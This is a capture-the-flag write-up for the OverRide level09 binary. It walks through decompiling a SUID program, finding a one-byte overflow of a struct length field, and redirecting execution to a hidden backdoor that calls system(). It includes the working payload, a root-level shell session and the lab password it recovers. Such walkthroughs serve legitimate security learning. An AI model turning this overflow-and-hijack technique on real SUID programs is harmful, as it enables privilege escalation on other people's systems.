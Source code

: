 # Level09 Exploit

## 1. Initial Analysis

List the files in the directory:

```bash
level09@OverRide:~$ ls -l
total 16
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

The `level09` binary has the SUID bit set, which means it will run with the permissions of the owner of the file, in this case `end`.

## 2. Program Execution

Observe the program behavior:

```bash
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: cam
>: Welcome, cam
>: Msg @Unix-Dude
>>: hello
>: Msg sent!

```

We can see that the program waits for an username input, then prints a welcome message, and then waits for a message input and prints a message sent message.

## 3. Disassembling `main` Function

Use GDB to disassemble the `main` function:

```bash
level09@OverRide:~$ gdb ./level09
(gdb) disass main
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool. You can find the converted code in [source.c](source.c).

We also use Ghidra to decompile the binary. You can find the decompiled code by Ghidra in [ghidra_level09.c](Ressources/ghidra_level09.c).

## 4. Program Analysis

The `main` function call `handle_msg`. This function declare a variable which is used in `set_username` and `set_msg` functions to set the username and message.
In the `set_username` function, we can see that the arg (`param_1` in ghidra file) is used like this:
`(param_1 + 0x8c)`
`0x8c` is `140` in decimal.
In the `set_msg` function, we can see that the arg (`param_1` in ghidra file) is used like this:
`strncpy(param_1,(char *)local_408,(long)*(int *)(param_1 + 0xb4));`
`0xb4` is `180` in decimal.
So we use this variable with his address (`strncpy(param_1`), with a address 140 bytes after, and with a address 180 bytes after.

His original address is used in `set_msg` function in the first arg of `strncpy` function (string argument), and his address + 180 bytes is used in the third arg of `strncpy` function (size argument).
His address + 140 is used in `set_username` function in the second arg of `strncpy` function (string argument).
So we can conclude that it's maybe a structure, with a string of 140 bytes, a string of 40 bytes and a integer.
The first string is the text message, the second string is the username and the integer is the length of the first string.

Maybe like this:
```c
struct s_msg {
    char text[140];
    char username[40];
    int len;
};
```
In the ghidra file, in `handle_msg` function, we can see:
```c
char local_c8 [140];
undefined8 local_3c;
undefined8 local_34;
undefined8 local_2c;
undefined8 local_24;
undefined8 local_1c;
undefined4 local_14;

local_3c = 0;
local_34 = 0;
local_2c = 0;
local_24 = 0;
local_1c = 0;
local_14 = 0x8c;
```
`0x8c` = 140 in decimal, and it's the last variable declared for this structure. So it's maybe the integer of the structure, the length of the first string.

In `set_username`, we can see that username input is copied in username string of the structure (40 bytes), and in `set_msg`, we can see that message input is copied in text string of the structure (140 bytes).

With Ghidra, we found a function `secret_backdoor` which is never called in the program.
```c
void secret_backdoor() {
    char buffer[128];

    fgets(buffer, 128, stdin);
    system(buffer);
}
```
This function reads 128 bytes from stdin and execute it with `system` function. We can use this function to execute a command.

## 4.1 Vulnerability

In the `set_username` function, we can see that the username input is copied in the username string of the structure with a `while` loop. The loop stops when the input is equal to `\n` or when the size of the input is greater than `0x29` (41 bytes).
But the size of the username string in the structure is 40 bytes.
So if we input a username with a size greater than 40 bytes, the 41th byte will overwrite the integer of the structure, which is the length of the first string. So we can rewrite the length of the first string with a value greater than 140.

In the `set_msg` function, the message input is copied in the text string of the structure with a `strncpy` function, with the size integer of the structure as the size argument. So if we rewrite the length of the first string with a value greater than 140, we can write more than 140 bytes in the text string of the structure, and overflow the text string.

## 5. Exploit

We want to execute the `secret_backdoor` function. For that, we will try to overflow the EIP with the address of the `secret_backdoor` function.

### 5.1 Find the secret_backdoor Address

```bash
level09@OverRide:~$ gdb ./level09
(gdb) break main
Breakpoint 1 at 0xaac
(gdb) run
Starting program: /home/users/level09/level09 

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) disass secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:	push   %rbp
   0x000055555555488d <+1>:	mov    %rsp,%rbp
   0x0000555555554890 <+4>:	add    $0xffffffffffffff80,%rsp
   0x0000555555554894 <+8>:	mov    0x20171d(%rip),%rax        # 0x555555755fb8
   0x000055555555489b <+15>:	mov    (%rax),%rax
   0x000055555555489e <+18>:	mov    %rax,%rdx
   0x00005555555548a1 <+21>:	lea    -0x80(%rbp),%rax
   0x00005555555548a5 <+25>:	mov    $0x80,%esi
   0x00005555555548aa <+30>:	mov    %rax,%rdi
   0x00005555555548ad <+33>:	callq  0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:	lea    -0x80(%rbp),%rax
   0x00005555555548b6 <+42>:	mov    %rax,%rdi
   0x00005555555548b9 <+45>:	callq  0x555555554740 <system@plt>
   0x00005555555548be <+50>:	leaveq 
   0x00005555555548bf <+51>:	retq   
End of assembler dump.
```

The address of the `secret_backdoor` function is `0x000055555555488c`.

### 5.2. Find the Offset

We overflow the size integer of the structure with one byte.
The size integer is defined at the value `0x8c`. An integer is 4 bytes, so `len = 0x0000008c`.
If we overflow the first byte of the integer with `0xff`, the new value of the integer will be `0x000000ff = 255`.
So we can search the offset until 255.

The structure is defined like this:
```c
struct s_msg {
    char text[140];
    char username[40];
    int len;
} t_msg;
```
And `text` is used in:
```c
strncpy(msg->text, local_buffer, strlen(msg->len));
```
If we want overflow here, we need to fill the `text`, the `username` and the `len`.
So 140 bytes for the text, 40 bytes for the username and 4 bytes for the len.
So we can search the offset after 184 bytes.

The offset is between 184 and 255.

### 5.3. Exploit

For the username input, we will use 40 bytes of `a` and 1 byte of `0xff` to overflow the integer of the structure.
For the message input, we will use `X` bytes of `0x90` to fill the text and 4 bytes of the address of the `secret_backdoor` function.
The address of the `secret_backdoor` function is `0x000055555555488c`, in little-endian it is `\x8c\x48\x55\x55\x55\x55\x00\x00`.
```bash
python -c "print 40 * 'a' + '\xff' + '\n' + '\x90' * X + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh' + '\n'" > /tmp/cam
```

We know that `X` is between 184 and 255. So we will try with all numbers between 184 and 255.
And we found that the offset is 200

```bash
level09@OverRide:~$ python -c "print 40 * 'a' + '\xff' + '\n' + '\x90' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh' + '\n'" > /tmp/cam
level09@OverRide:~$ (cat /tmp/cam; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

Congratulations! You have successfully exploited the `level09` binary and found the password for `end`.

```bash
level09@OverRide:~$ su end
Password: 
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
end@OverRide:~$ ./end
```